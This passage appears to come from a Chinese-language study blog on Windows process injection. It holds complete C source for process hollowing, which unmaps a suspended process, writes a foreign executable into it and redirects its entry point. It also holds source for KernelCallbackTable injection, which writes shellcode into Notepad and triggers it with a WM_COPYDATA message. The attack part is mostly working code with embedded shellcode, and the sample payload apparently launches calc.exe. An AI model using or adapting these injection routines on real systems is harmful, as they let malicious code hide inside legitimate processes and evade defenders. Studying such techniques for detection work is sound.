	PBYTE pBuf = (PBYTE)malloc(dwFileSize);

	DWORD dwBytesRead = 0;
	if (!ReadFile(hFile, pBuf, dwFileSize, &dwBytesRead, NULL))
	{
		printf("ReadFile Failed error code: %d", GetLastError());
		CloseHandle(hFile);
		free(pBuf);
		return 1;
	}
	// 得到主要运行内容的dos和nt头
	PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBuf;
	PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBuf + pDosHeader->e_lfanew);


	//2.获取进程上下文 ： 第一步：创建傀儡进程外壳，设置挂起状态，保存上下文信息
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	if (!CreateProcessA(NULL, (LPSTR)"E:\\信息安全知识学习\\ProcessThread注入\\进程注入学习代码\\傀儡进程注入\\x64\\father.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
	{
		printf("CreateProcessA 失败，错误码 %lu\n", GetLastError());
		return 1;
	}

	CONTEXT ctx;
	ctx.ContextFlags = CONTEXT_FULL;
	if (GetThreadContext(pi.hThread, &ctx) == 0)
	{
		printf("CreateProcess failed %d\n", GetLastError());
		return 1;
	}

	//3.清空目标进程 ： 第二步：取消原先的进程的内存
	HMODULE hNtdll = LoadLibraryA("ntdll.dll");
	if (hNtdll == NULL)
	{
		printf("无法加载 ntdll.dll 库\n");
		return 1;
	}
	NtUnMapViewOfSectionPtr NtUnMapViewOfSection = (NtUnMapViewOfSectionPtr)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	LPVOID dwProcessBaseAddr = 0;
	// 获取目标进程的base address， 然后将他的内存取消注册
	// context.Ecx = 基地址的地址，因此从context.Ebx + 8的地址读取4字节的内容并转化为DWORD类型，既是进程加载的基地址
	if (!ReadProcessMemory(pi.hProcess, (LPCVOID)ctx.Rcx, &dwProcessBaseAddr, sizeof(PVOID), NULL))
	{
		printf("ReadProcessMemory failed  %lu\n", GetLastError());
		return 1;
	}
	// 通过x64dbg看到确实可以
	NtUnMapViewOfSection(pi.hProcess, (LPCVOID)ctx.Rcx);

	//4.重新分配空间
	LPVOID lpAddr = VirtualAllocEx(pi.hProcess, (LPVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//用Imagebase为起始地址避免了重定位。
	if (lpAddr == NULL)
	{
		printf("VirtualAlloc failed %d\n", GetLastError());
		return 1;
	}

	//5.写入傀儡进程
	// 替换PE头
	// 这里在内存中开辟的40000的空间写入了被注入程序的所有的头，节区留着后面写
	if (!WriteProcessMemory(pi.hProcess, lpAddr, (LPCVOID)pBuf, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}
	// 替换节
	// 将地址seek到节区头开始
	DWORD nt_size = sizeof(IMAGE_NT_HEADERS);
	long long tmp = (pBuf + pDosHeader->e_lfanew);
	LPVOID lpSectionBaseAddr = (LPVOID)(tmp + nt_size);
	PIMAGE_SECTION_HEADER pSectionHeader;
	for (DWORD dwIndex = 0; dwIndex < pNtHeaders->FileHeader.NumberOfSections; ++dwIndex)
	{
		pSectionHeader = (PIMAGE_SECTION_HEADER)lpSectionBaseAddr;
		// 句柄，要写入进程的地址，指向本程序的要往外写的内容的地址
		LPVOID RemoteProcess_address = (LPVOID)((BYTE*)lpAddr + pSectionHeader->VirtualAddress);
		LPVOID LocalProcess_address = (LPCVOID)(pBuf + pSectionHeader->PointerToRawData);
		if (!WriteProcessMemory(pi.hProcess, RemoteProcess_address, LocalProcess_address, pSectionHeader->SizeOfRawData, NULL))
		{
			printf("WriteProcessMemory error code : %d\n", GetLastError());
			return 1;
		}
		lpSectionBaseAddr = (LPVOID)((BYTE*)lpSectionBaseAddr + sizeof(IMAGE_SECTION_HEADER));
	}
	//6.恢复现场并运行傀儡进程
		// 替换PEB中基地址
	DWORD dwImageBase = pNtHeaders->OptionalHeader.ImageBase;

// 另一种修改peb的方式
	/*
	NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
	//find base addr by peb
	PROCESS_BASIC_INFORMATION pbi;
	ULONG ReturnLength;
	NTSTATUS status = NtQueryInformationProcess(pi.hProcess, 0, &pbi, sizeof(pbi), &ReturnLength);
	if (status != 0)
	{
		printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
		return 1;
	}
	// peb offset
	DWORD_PTR pef_offset = (DWORD_PTR)pbi.PebBaseAddress;

	// 修改peb结构体中的baseaddress的值
	if (!WriteProcessMemory(pi.hProcess, (LPVOID)((BYTE*)pef_offset+0x10), (LPCVOID)&dwImageBase, sizeof(PVOID), NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}
	*/
// 另一种修改peb的方式 rdx保留了peb的baseaddr, 不要使用(LPCVOID)&dwImageBase，会造成高地址全是cc
	//WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
	if (!WriteProcessMemory(pi.hProcess, (LPVOID)((ctx.Rdx)+0x10), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}

	// 替换入口点 64 -> rcx; 32 -> eax
	//ctx.Rcx = dwImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint;

	ctx.Rcx = (SIZE_T)((LPBYTE)pNtHeaders->OptionalHeader.ImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
	if (!SetThreadContext(pi.hThread, &ctx))
	{
		printf("SetThreadContext failed : %d\n", GetLastError());
		return 1;
	}

	//CreateRemoteThread(pi.hThread, 0, 0, (LPTHREAD_START_ROUTINE)(dwImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint), 0, 0, NULL);
	ResumeThread(pi.hThread);
	free(pBuf);
	return 0;
}
```

思路简单，就是写起来比较麻烦，但是可以直接注入整个exe文件，比较方便，查杀率高的一逼

## 6、消息回调注入

通过修改PEB表中的特定消息回调函数的指针使其指向shellcode，然后再向该进程发送消息，触发shellcode执行。`SendMessage`函数来发送消息进行shellcode的触发。

先用windbg看一下PEB的结构， attach一个进程，然后

```
!peb
# 定位到kct的地址
dps addr L100
# 查看kct的具体内容
```



老多内容了。


### 流程

找到目标进程句柄，找到peb地址，定位KernelCallBackTable表（kct表），然后申请内存空间写入shellcode

#### 定位peb


#### 定位kct


#### 申请shellcode空间


#### 创建新的kct

将新的kct的里面的某一个消息回调的地址进行设置为shellcode


#### 更新kct


#### 触发shellcode


### 实现代码

```c
#include<stdio.h>
#include<Windows.h>
#include<stdlib.h>
#include "struct.h"

// https://github.com/capt-meelo/KernelCallbackTable-Injection/blob/master/KCT.cpp
// http://hacky.ren/2022/04/23/%E7%BB%BF%E7%9B%9F%E7%A7%91%E6%8A%80-%E6%AF%8F%E5%91%A8%E8%93%9D%E5%86%9B%E6%8A%80%E6%9C%AF%E6%8E%A8%E9%80%81%EF%BC%882022.4.16-4.22%EF%BC%89/

// 32bit
unsigned char shellcode[] = "\xcc\xc3\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8"
"\xA0\x12\xed\x76"
"\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8"
"\xF0\xE1\xF0\x76"
"\xFF\xD0\x33\xC0\x50\xB8"
"\x80\x59\xed\x76"
"\xFF\xD0\x90\x90\xC3";
// 64bit
unsigned char shellcode64[] = "\xcc\xc3\x55\x48\x8B\xEC\x90\xC7\x04\x24\x2E\x64\x6C\x6C\xC7\x44\x24\xFC\x65\x6C\x33\x32\xC7\x44\x24\xF8\x6B\x65\x72\x6E\x48\x8B\xCC\x90\x90\x48\xB8"
"\xA0\x8C\xC7\xA7\xFE\x7F\x00\x00"
"\xFF\xD0\xBA\x05\x00\x00\x00\xC7\x04\x24\x65\x78\x65\x2E\xC7\x44\x24\xFC\x63\x6C\x61\x63\xC7\x44\x24\xF8\x00\x00\x00\x00\x48\x8B\xCC\x90\x48\xB8"
"\xD0\x77\x41\xA8\xFE\x7F\x00\x00"
"\x90\x90\x90\xC3";

/*
typedef struct _PROCESS_BASIC_INFORMATION {
	PVOID Reserved1;
	PVOID PebBaseAddress;
	PVOID Reserved2[2];
	ULONG_PTR UniqueProcessId;
	PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;
*/

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
	HANDLE ProcessHandle,
	DWORD ProcessInformationClass,
	PVOID ProcessInformation,
	ULONG ProcessInformationLength,
	PULONG ReturnLength
	);


int main()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };

	HWND hWnd = FindWindow(L"Notepad", NULL);
	DWORD processId;
	DWORD threadId = GetWindowThreadProcessId(hWnd, &processId);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
	//printf("[++] processId 0x%lp\n[++] threadId 0x%lp", processId, threadId);


	// NtQueryInformationProcess api在ntdll里，属于未公开的函数，所以需要动态调用
	HMODULE hNtdll = LoadLibraryA("ntdll.dll");
	if (hNtdll == NULL)
	{
		printf("无法加载 ntdll.dll 库\n");
		return 1;
	}
	NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
	
	//find base addr by peb
	PROCESS_BASIC_INFORMATION pbi;
	//ULONG ReturnLength;
	NTSTATUS status = NtQueryInformationProcess(hProcess, 0, &pbi, sizeof(pbi), NULL);
	if (status != 0)
	{
		printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
		return 1;
	}
	
	// peb & kct address
	PEB peb;
	ReadProcessMemory(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
	KERNELCALLBACKTABLE kct;
	ReadProcessMemory(hProcess, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
	//DWORD_PTR kct_addr = (DWORD_PTR)(BYTE*)peb_addr + 0x58;

	// 申请空间写入shellcode
	LPVOID payloadAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode64), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, payloadAddr, shellcode64, sizeof(shellcode64), NULL);

	// 创建一个新的kct，因为之前的不能写
	LPVOID newKCTAddr = VirtualAllocEx(hProcess, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	kct.__fnCOPYDATA = (ULONG_PTR)payloadAddr;
	WriteProcessMemory(hProcess, newKCTAddr, &kct, sizeof(kct), NULL);

	// 更新kct
	WriteProcessMemory(hProcess, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &newKCTAddr, sizeof(ULONG_PTR), NULL);

	// 触发shellcode
	COPYDATASTRUCT cds;
	WCHAR msg[] = L"Pwn";
	cds.dwData = 1;
	cds.cbData = lstrlen(msg) * 2;
	cds.lpData = msg;
	SendMessage(hWnd, WM_COPYDATA, (WPARAM)hWnd, (LPARAM)&cds);
	printf("[+] Payload executed\n");

	return 0;
}
```

